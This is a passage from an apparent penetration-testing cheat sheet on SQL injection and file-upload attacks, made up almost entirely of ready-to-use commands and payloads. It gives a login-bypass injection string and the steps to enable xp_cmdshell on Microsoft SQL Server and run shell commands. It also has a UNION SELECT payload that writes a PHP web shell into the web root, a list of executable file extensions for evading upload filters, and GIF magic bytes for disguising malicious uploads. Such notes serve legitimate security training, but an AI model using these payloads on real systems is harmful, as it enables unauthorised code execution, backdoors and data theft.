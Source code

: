 ```
admin' OR 1=1 -- //
```

### Manual Code Execution

```
impacket-mssqlclient <<USERNAME>>:<<PASSWORD>>@<<IP>> -windows-auth
```

```
SQL> EXECUTE sp_configure 'show advanced options', 1;
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
SQL> RECONFIGURE;
```

With this feature enabled, we can execute any Windows shell command through the **EXECUTE** statement:

```
SQL> EXECUTE xp_cmdshell 'whoami';
```

#### Writing files on the web server via `SELECT INTO_OUTFILE` statement

```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

If successful we can access `webshell` on `http://<<IP>>/tmp/webshell.php`

## File Upload

### Bypass file extensions

**Other extensions**

```
PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

ASP: _.asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
```

### Magic Byte

 Insert at the start of the file to make it look as a .gif file:
```
GIF8;
GIF87a;
```

